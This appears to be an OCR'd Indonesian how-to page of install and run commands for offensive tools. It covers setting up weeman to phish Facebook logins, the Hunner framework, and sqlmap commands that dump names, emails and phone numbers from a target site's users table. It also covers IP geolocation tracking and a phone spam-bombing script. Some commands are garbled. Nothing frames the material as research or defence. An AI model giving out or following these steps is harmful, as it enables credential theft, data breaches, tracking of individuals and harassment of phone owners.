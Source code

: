 $ apt install python2 -y
$ git clone https://github.com/evait-security/weeman
$ cd weeman
$ chmod 777 weeman.py
$ python2 weeman.py
Contoh
$ set url http://facebook.com
$ set action_url http://facebook.com
run
(Bisa diganti phising nya, kalau Twitter ya bisa ataupun yg lain)

*Ikuti Langkah Demi Langkah*

(““Install“` *Hunner framework*)
$ apt update
$ apt install python
$ apt install git -y
$ git clone https://github.com/b3-v3r/Hunner
$ cd Hunner
$ chmod 777 hunner.py
$ python hunner.py
Ikuti Langkah Demi Langkah

(“`Install“` *SQLMAP*)

$ apt update
$ apt install python
$ apt install python2
$ apt install git
$ gi clone https://github.com/sqlmapproject/sqlmap
$ cd sqlmap
$ Python2 sqlmap.py
Exemple:-

Python2 sqlmap.py -u website –dbs
-D acuart –tables
-D acuart -T users –columns
-D acuart -T users -C name,email,phone -dump

Ikuti Langkah Demi Langkah

Lacak ip
git clone https://github.com/maldevel/IPGeolocation
cd IPGeolocation
chmod +x ipgeolocation.py
pip install -r requirements.txt
python ipgeolocation.py -m
python ipgeolocation.py -t IP yang ingin dilacak

bbom spam
apt upgrade && apt update
apt install git
git clone https://github.com/Amriez/gcospam
cd gcospam
sh install.sh
sh gco.sh
Pilih nomer yang mana ajjh
Lalu
Masukan nomer tanpa 0/62
Input bebas
Jeda default ajjh

